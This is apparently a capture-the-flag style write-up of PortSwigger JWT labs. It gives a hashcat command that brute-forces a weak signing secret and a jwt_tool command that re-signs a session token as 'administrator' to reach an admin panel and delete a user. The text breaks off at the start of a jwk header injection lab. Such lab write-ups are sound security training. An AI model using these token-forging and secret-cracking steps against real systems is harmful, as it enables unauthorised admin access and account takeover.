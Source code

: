 `-pc` and `-pv` will change payload value from `wiener` to `administrator` and `-X a` means attack - `algo:none`

# JWT authentication bypass via weak signing key
> This lab uses a JWT-based mechanism for handling sessions. It uses an extremely weak secret key to both sign and verify tokens. This can be easily brute-forced using a [wordlist of common secrets](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list).
> 
> To solve the lab, first brute-force the website's secret key. Once you've obtained this, use it to sign a modified session token that gives you access to the admin panel at /admin, then delete the user carlos.
> 
> You can log in to your own account using the following credentials: wiener:peter

This one i'll make it short as it's relatively simple.
We login using ´wiener:peter´. Run hashcat against the hash

```
hashcat hash ../wordlists/jwt.secrets.list -m 16500
```

Use either `https://jwt.io` or jwt_tool and sign the token back using found secret key.

```
jwt_tool eyJraWQiOiIxZDlkNWZhMS0xMWRjLTQzZWMtYjZjZC1jOGYxM2YxOTk2ZTIiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3Mzg5OTcxM30.hUWLKQ6Fyrc1iywdg2Iv8_DFmzal7cvR3OD1UbS5mRg -pc sub -pv administrator -I -p secret1 -S hs256
```

Exchange the token new one and delete `carlos`

# JWT authentication bypass via jwk header injection
> This lab uses a JWT-based mechanism for handling sessions. The server supports the jwk parameter in the JWT header. This is sometimes used to embed the correct verification key directly in the token. However, it fails to check whether the provided key came from a trusted source.
> 
> To solve the lab, modify and sign a JWT that gives you access to the admin panel at /admin, then delete the user carlos.
> 
> You can log in to your own account using the following credentials: wiener:peter

As in previous lab, login using `wiener:peter` and intercept the request.
